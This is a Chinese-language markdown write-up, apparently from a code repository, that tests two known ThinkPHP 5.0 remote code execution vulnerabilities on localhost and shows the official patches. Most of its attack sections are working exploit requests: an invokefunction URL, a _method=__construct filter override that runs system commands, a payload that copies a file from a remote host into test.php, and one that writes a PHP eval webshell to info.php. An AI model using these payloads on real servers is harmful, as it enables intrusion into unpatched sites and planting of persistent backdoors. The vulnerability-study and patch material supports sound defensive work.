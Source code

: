 # ThinkPHP5.0 漏洞测试

> 自从ThinkPHP发布漏洞补丁以来，服务器不知道多少次受到了批量扫描漏洞来抓取肉鸡的请求
> 虽然官方早已发布补丁，还是想试一下TP漏洞，测试两个漏洞

## 一、全版本执行漏洞

```xml
<!-- GET -->
http://127.0.0.1/ThinkPHP/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```
由于对控制器名没有明确的检测，在没有开启强制路由的情况下，直接就可以执行phpinfo()，如果服务器未限制shell等函数的执行，便可以直接执行shell提权

![](screenshots/2023-04-14-20-50-36.jpg)

详细的漏洞执行过程可以参考 [漏洞执行过程](https://www.cnblogs.com/st404/p/10245844.html)

##### 官方补丁
加入正则表达式来限制控制器名
```php
/* /thinkphp/library/think/App.php 555行 加入 */
if (!preg_match('/^[A-Za-z](\w)*$/', $controller)) {
     throw new HttpException(404, 'controller not exists:' . $controller);
}
```



## 二、_method漏洞

```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter[]=system&method=GET&get[]=dir
```
_触发条件_

```php
//Config.php
'var_method'             => '_method'
```

利用`$_POST['_method']`变量来传递真实的请求方法，当`$_POST['_method']=__construct`时，Request类的method方法便会将该类的变量进行覆盖，利用该方式将filter变量覆盖为system等函数名，当内部进行参数过滤时便会进行执行任意命令

![](screenshots/2023-04-14-20-50-45.jpg)

基于此可以直接上传PHP文件 test.php
```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha&fileDown=copy("http://xxx/1.txt","test.php")
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter=assert&method=get&server[REQUEST_METHOD]=fileDown
```
生成一句话木马
```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha&T=echo+^<?php+phpinfo();eval($_POST[cmd]);?^>+>>info.php
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter=system&method=get&server[REQUEST_METHOD]=123
```

可以在config.php将_method设置为其他字符，或者升级TP

##### 官方补丁
官方补丁中限制了_method可疑设置的请求方法，并在处理_method之后将其unset，无法再利用__construct进行变量覆盖

```php
/* thinkphp/library/think/Request.php */
 public function method($method = false)
    {
        if (true === $method) {
            // 获取原始请求类型
            return IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
        } elseif (!$this->method) {
            if (isset($_POST[Config::get('var_method')])) {
                $method = strtoupper($_POST[Config::get('var_method')]);
                if (in_array($method, ['GET', 'POST', 'DELETE', 'PUT', 'PATCH'])) {
                    $this->method = $method;
                    $this->{$this->method}($_POST);
                } else {
                    $this->method = 'POST';
                }
                unset($_POST[Config::get('var_method')]); //unset
            } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
                $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
            } else {
                $this->method = IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
            }
        }
        return $this->method;
    }
```

> 参考文章：
> https://www.cnblogs.com/st404/p/10245844.html
> https://mrxn.net/Infiltration/618.html
> https://www.cnblogs.com/nul1/p/11863574.html
> https://www.vulnbug.com/amp/thkphp5x-code-execution-vulnerabilities-and-bypass.html
> https://www.freebuf.com/vuls/194127.html
